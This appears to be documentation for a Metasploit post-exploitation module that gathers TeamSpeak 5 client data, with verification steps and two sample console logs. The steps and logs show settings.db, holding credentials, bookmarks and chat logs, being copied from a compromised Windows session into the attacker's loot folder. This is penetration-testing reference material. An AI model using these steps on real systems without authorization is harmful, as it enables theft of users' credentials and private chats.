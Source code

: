 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the TeamSpeak 5 Client.

The TeamSpeak 5 Client is avaialble from (https://www.teamspeak3.com/teamspeak-download.php).

This module extracts information from the setting.db file in the "AppData\Roaming\TeamSpeak" directory.

This module extracts server bookmarks and chat logs.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/teamspeak5_client
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### TeamSpeak 5 Client v5.0.0-beta77 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/teamspeak5_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Teamspeak 5 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162835_default_10.0.0.2_teamspeak5clie_839078.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162835_default_10.0.0.2_EXTRACTIONSsetti_004931.db
[*] Teamspeak 5 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162836_default_10.0.0.2_teamspeak5clie_509632.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162836_default_10.0.0.2_EXTRACTIONSsetti_077545.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### TeamSpeak 5 Client v5.0.0-beta77 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/teamspeak5_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Teamspeak 5 client's base folder not found in user's user directory

[-] Teamspeak 5 client's base folder not found in user's user directory

[*] Starting Packrat...
[*] Teamspeak 5 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 5 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TeamSpeak\Default
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_teamspeak5clie_862604.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_EXTRACTIONSsetti_713451.db
[*] Teamspeak 5 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 5 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TeamSpeak\Default
[*] Downloading C:\Users\test\AppData\Roaming\TeamSpeak\Default\settings.db
[*] Teamspeak 5 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510162858_default_10.0.0.2_teamspeak5clie_814911.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510162859_default_10.0.0.2_EXTRACTIONSsetti_786231.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
